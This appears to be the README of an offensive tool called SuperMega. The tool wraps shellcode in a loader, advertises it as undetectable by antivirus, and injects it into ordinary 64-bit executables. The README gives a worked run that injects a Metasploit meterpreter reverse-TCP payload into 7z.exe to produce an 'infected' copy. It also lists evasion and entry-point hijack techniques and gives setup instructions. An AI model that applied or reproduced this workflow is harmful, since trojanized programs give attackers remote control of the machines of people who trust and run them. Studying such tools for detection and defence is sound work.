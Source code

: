 # SuperMega - Cordyceps Implementation

> Ophiocordyceps camponoti-balzani is a species of fungus that parasitizes 
> insect hosts of the order Hymenoptera, primarily ants. O. 
> camponoti-balzani infects ants, and eventually kills the hosts after 
> they move to an ideal location for the fungus to spread its spores.

Ophiocordyceps camponoti-balzani


## What

SuperMega is a shellcode loader. It will take a shellcode as input, protects it, adds a loader,
and injects the resulting shellcode into an exe. 

FUD.

And: 
* Only works with 64 bit (shellcode and infecteble exe's)

Features: 
* Loader source is C yay
* Execution-Guardrails
  * Environment variables
* configurable implementation
* different EXE injection techniques

Plugins: 
* source style:
  * PEB_WALK
  * IAT_REUSE
* alloc style:
  * RWX
  * REUSE_RWX
* decoder style:
  * PLAIN_1
  * XOR_1
* dataref style:
  * APPEND


## Examples

### Metasploit in 7z

Inject metasploit into 7z.exe. It will use PEB_WALK. 

```
PS C:\repos\supermega> python.exe .\supermega.py --shellcode .\shellcodes\msf-meterpreter-reversetcp.bin --inject .\exes\7z.exe
(supermega.py) Super Mega
(helper.py   ) --[ Remove old files ]
(model.py    ) --( Capabilities: 
(model.py    )   0x0: GetEnvironmentVariableW (b'')
(model.py    )   0x460090: VirtualAlloc (b'')
(supermega.py) --[ SourceStyle: peb_walk
(compiler.py ) --[ C to ASM: build\main.c -> build\main.asm ]
(compiler.py ) ---[ Make ASM from C: build\main.c ]
(compiler.py ) ---[ Fixup  : build\main.asm ]
(compiler.py )     > Replace external reference at line: 8
(compiler.py )     > Replace external reference at line: 395
(compiler.py )     > Replace payload length at line: 389
(compiler.py )     > Add end of code label at line: 807
(compiler.py ) ---[ Cleanup: build\main.asm ]
(assembler.py) --[ Assemble to exe: build\main.asm -> build\main.exe -> build\main.bin ]
(assembler.py) ---[ Assemble ASM to EXE: build\main.asm -> build\main.exe ]
(assembler.py) ---[ EXE to SHC: build\main.exe -> build\main.bin ]
(helper.py   ) --[ Code section: .text
(helper.py   )     > 0x1000 Code Size: 2557  (raw code section size: 2560)
(assembler.py) --[ Merge stager: build\main.bin + .\shellcodes\msf-meterpreter-reversetcp.bin -> build\main.bin ]
(assembler.py) ---[ Size: Stager: 2557 and Payload: 449  Sum: 3006 ]
(injector.py ) --[ Injecting: build\main.bin into: .\exes\7z.exe -> .\exes\7z.infected.exe ]
(supermega.py) --[ Start infected exe ]
```


## rbmode
```
    save,run
      |   |
      |   +---------- 1 - change AddressOfEntryPoint
      |               2 - hijack branching instruction at Original Entry Point (jmp, call, ...)
      |               3 - setup TLS callback
      |               4 - hijack branching instruction at DLL Exported function (use -e to specify export to hook)
      |               
      +-------------- 1 - store shellcode in the middle of a code section
                      2 - append shellcode to the PE file in a new PE section
```

## Directories

* `shellcodes/`: Input: Shellcodes we want to use as input (payload)
* `source/`: Input: Loader C templates
* `plugins/`: Input: Loader C implementations
* `exes/`: Input: Nonmalicious EXE files we inject into
* `build/`: build: Temporary files during build process
* `logs/`: build: Files generated by building (inspect for debugging)
* `out/`: output. The generated result: infected exe

## Installation

### Paths

Configure `config.yaml` with: 
* Path to Visual Studio 2022 compiler and assembler
* Path to mash_shc and runshc: https://github.com/hasherezade/masm_shc. 

`config.yaml`:
```yaml
path_cl: 'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\cl.exe'
path_ml64:  'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\ml64.exe'

path_masmshc:  'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\masm_shc\masm_shc.exe'
path_runshc: 'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\runshc\runshc.exe'
```

Make sure its the `Hostx64/x64/` one exe. Make sure to compile
msmshc and runshc as 64bit. You can also replace runshc with
your own shellcode loader. 

### Environment Variables

Use
```
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvars64.bat"
```

or the VS developer console to find the damn environment variables, and set 
it in your python console. In my case:
```
$env:INCLUDE = "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\VS\include;C:\Program Files (x86)\Windows Kits\10\include\10.0.22621.0\ucrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\um;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\shared;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\winrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\cppwinrt;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\include\um"
$env:LIB="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64;C:\Program Files (x86)\Windows Kits\10\lib\10.0.22621.0\ucrt\x64;C:\Program Files (x86)\Windows Kits\10\\lib\10.0.22621.0\\um\x64"
$env:LIBPATH="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x86\store\references;C:\Program Files (x86)\Windows Kits\10\UnionMetadata\10.0.22621.0;C:\Program Files (x86)\Windows Kits\10\References\10.0.22621.0;C:\Windows\Microsoft.NET\Framework64\v4.0.30319"
```

### VS2022 Components

A list of packages/components which may be required for Visual Studio 2022:
* C++ 2022 Redistributable Update
* C++ Build Insights
* C++ CMake tools for windows
* C++ /CLI support for v143 build tools (lastest)
* MSBuild
* MSVC v133 - VS 2002 C++ x64/x86 build tools (latest)
* C++ ATL for latest v143 build tools (x86 & x64)
* C++ MFC for latest v143 build tools (x86 & x64)
* Windows 11 SDK